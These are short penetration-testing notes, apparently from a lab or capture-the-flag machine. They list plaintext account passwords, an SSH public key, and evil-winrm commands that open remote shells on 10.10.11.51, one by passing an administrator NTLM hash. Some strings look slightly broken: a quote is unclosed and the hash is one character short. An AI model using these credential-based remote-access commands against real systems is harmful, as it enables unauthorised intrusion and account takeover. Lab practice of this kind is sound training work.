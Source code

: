 # Credentials
rose:KxEPkKe6R8su
mysql
sa:MSSQLP@ssw0rd!

ryan:WqSZAF6CysDQbGb3


ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKXoUJIzi27EzRNg0KOo+IAKQwAWPvEL+xJycup7mmFk parrot@parrot

evil-winrm -i 10.10.11.51 -u "ryan" -p "WqSZAF6CysDQbGb3


evil-winrm -i 10.10.11.51 -u "administrador" -H "7a8d4e04986afa8ed4060f75e5a0b3f"